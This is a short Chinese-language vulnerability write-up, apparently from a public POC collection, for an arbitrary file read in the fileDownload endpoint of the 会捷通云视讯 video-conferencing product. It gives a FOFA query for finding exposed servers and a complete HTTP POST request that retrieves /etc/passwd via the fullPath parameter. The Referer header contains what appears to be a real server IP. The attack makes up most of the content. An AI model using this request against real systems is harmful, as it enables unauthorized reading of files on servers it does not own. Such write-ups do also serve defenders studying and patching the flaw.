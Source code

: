 # 会捷通云视讯-fileDownload-任意文件读取漏洞

## 漏洞描述

会捷通云视讯 fileDownload 存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器上的任意文件

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](会捷通云视讯-fileDownload-任意文件读取漏洞.assets/1627363147635453.jpg)

发送请求包

```
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: 
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://36.99.45.142:9090/fileDownload?action=downloadBackupFile
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

fullPath=%2Fetc%2Fpasswd
```

![](会捷通云视讯-fileDownload-任意文件读取漏洞.assets/1627363148415773.jpg)

## Goby & POC

![](会捷通云视讯-fileDownload-任意文件读取漏洞.assets/1627363148759327.jpg)